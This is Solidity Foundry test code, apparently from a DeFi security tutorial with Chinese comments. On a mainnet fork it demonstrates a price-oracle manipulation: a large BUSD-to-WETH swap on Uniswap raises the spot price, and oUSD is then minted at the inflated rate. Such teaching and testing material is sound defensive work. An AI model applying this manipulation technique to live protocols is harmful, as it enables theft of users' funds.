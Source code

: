 ```solidity
    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // fork指定区块
        vm.createSelectFork(MAINNET_RPC_URL,16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // 攻击预言机
        // 0. 操纵预言机之前的价格
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore); 
        // 给自己账户 1000000 BUSD
        uint busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. 用busd买weth，推高瞬时价格
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. 操纵预言机之后的价格
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter); 
        // 4. 铸造oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this))/10e18); 
    }

    // Swap BUSD to WETH
    function swapBUSDtoWETH(uint amountIn, uint amountOutMin)
        public
        returns (uint amountOut)
    {   
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint[] memory amounts = router.swapExactTokensForTokens(
            amountIn,
            amountOutMin,
            path,
            alice,
            block.timestamp
        );

        // amounts[0] = BUSD amount, amounts[1] = WETH amount
        return amounts[1];
    }
}
```
